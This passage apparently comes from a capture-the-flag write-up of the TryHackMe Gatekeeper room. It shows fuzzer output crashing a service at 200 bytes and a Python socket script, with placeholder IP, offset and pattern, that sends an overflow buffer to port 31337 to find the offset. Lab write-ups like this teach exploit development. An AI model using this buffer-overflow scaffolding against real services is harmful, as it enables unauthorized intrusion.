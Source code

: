 As we execute the script, we can see that the program crashes at 200 bytes.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper]
└─$ python3 fuzzer.py
Sending 100 bytes...
Sending 200 bytes...
Fuzzing crashed at 200 bytes.
```

We can now create a pattern to find the offset.

![](pattern-create.png)

Our script to find the offset should look like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<IP_ADDRESS>"
port = 31337
timeout = 5

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<PATTERN>"
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

Now we can run the script to find the offset.
